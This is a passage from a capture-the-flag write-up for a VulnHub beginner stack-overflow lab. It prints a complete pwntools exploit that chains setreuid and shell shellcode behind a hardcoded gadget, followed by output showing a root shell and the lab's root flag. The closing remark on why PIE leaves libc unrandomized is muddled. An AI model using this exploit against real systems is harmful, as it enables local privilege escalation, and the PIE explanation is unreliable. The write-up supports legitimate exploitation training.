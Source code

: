W00T! Why we can't read that file? Why we are not root?? :sob:

Analizing the main function into gdb, we eventually find out that this time the code __does not__ call the ```setuid``` function, preventing our shell to run as root.

Nothing more simple to solve! Thanks to the __p0w3r!__ of the pwntool, we can just use another shellcode rigth before the shell's one to call ```setuid```!

So add the ```shellcraft.i386.linux.setreuid()``` generated shellcode into the buffer, as the first one called.
Now the exploit should looks like this:

```python
#!/usr/bin/python2.7

from pwn import *

p = process("./levelFive")

buf = ''
buf += 'A' * 16

buf += p32(0xF7F059C6) # 0x001379c6: push esp; ret;
buf += asm(shellcraft.i386.linux.setreuid())
buf += asm(shellcraft.i386.linux.sh())

p.sendline(buf)
p.interactive()
```

Run it, and...

```sh
level4@kali:~$ ./shell.py 
[+] Starting local process './levelFive': pid 7497
[*] Switching to interactive mode
Enter your input: Buf: [REDACTED]
$ id
uid=0(root) gid=1004(level4) groups=1004(level4)
$ cat /root/root.txt
6fabdaa465082fb1c32e915aced6a568
$ 
```

BOOM! G0tR00T!

## Final thoughts 

There are still some questions in my mind..

~~First of all, why the Ret-to-libc gadget works? I mean, the binary is compiled with the ```PIE``` enabled, so theoretically the libc's base address should be randomized at every run, but this is not the case 'cause our exploit works fine.~~

**UPDATE** The ```PIE``` mechanism works only the the binary's base address, leaving the libc's base intact.. that's why my exploit works - my bad :smile: 


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-1,290/
[2]: https://github.com/longld/peda
[3]: https://github.com/Gallopsled/pwntools
[4]: https://wiremask.eu/tools/buffer-overflow-pattern-generator/
[5]: https://twitter.com/MrMoDDoM
